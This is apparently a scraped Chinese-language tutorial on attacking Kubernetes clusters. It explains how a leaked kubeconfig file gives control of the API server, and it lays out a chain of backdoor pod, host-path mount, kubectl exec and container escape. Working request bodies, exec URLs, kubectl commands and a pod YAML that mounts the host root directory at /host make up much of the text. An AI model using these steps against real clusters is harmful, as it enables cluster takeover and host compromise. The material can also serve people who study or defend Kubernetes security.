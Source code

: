 # 创建特权容器

[https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444](https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444)  
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\\"apiVersion\\":\\"v1\\",\\"kind\\":\\"Pod\\",\\"metadata\\":{\\"annotations\\":{},\\"name\\":\\"test-4444\\",\\"namespace\\":\\"default\\"},\\"spec\\":{\\"containers\\":\[{\\"image\\":\\"nginx:1.14.2\\",\\"name\\":\\"test-4444\\",\\"volumeMounts\\":\[{\\"mountPath\\":\\"/host\\",\\"name\\":\\"host\\"}\]}\],\\"volumes\\":\[{\\"hostPath\\":{\\"path\\":\\"/\\",\\"type\\":\\"Directory\\"},\\"name\\":\\"host\\"}\]}}\\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":\[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":\[{"mountPath":"/host","name":"host"}\]}\],"volumes":\[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}\]}}

# 执行命令

[https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami](https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami)

````plain
创建特权容器详细解释：
![](https://xzfile.aliyuncs.com/media/upload/picture/20211230191403-98e85642-6961-1.png)
创建特权容器
### K8s configfile 泄露
K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息（API Server、登录凭证）。
如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到 Github 的代码等)，就可以直接通过 API Server 接管 K8s 集群，带来风险隐患。

用户凭证保存在 kubeconfig 文件中，kubectl 通过以下顺序来找到 kubeconfig 文件：
1.如果提供了--kubeconfig参数，就使用提供的 kubeconfig 文件。
2.如果没有提供--kubeconfig 参数，但设置了环境变量 $KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
3.如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件 $HOME/.kube/config。

拿到K8s configfile完整利用流程：
K8s configfile --> 创建后门Pod/挂载主机路径 --> 通过Kubectl进入容器 --> 利用挂载目录逃逸。
```css
#Linux 安装 kubectl
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl

#内容放入 config、或指定选项，需要修改 Server 地址
kubectl --kubeconfig k8s.yaml

#获取已接取的镜像
kubectl get pods --all-namespaces --insecure-skip-tls-verify=true -o jsonpath="{..image}" |tr -s '[[:space:]]' '\n' |sort |uniq -c

#创建 Pod pod.yaml，将宿主机根目录挂载 host 文件
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx:1.14.2
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
````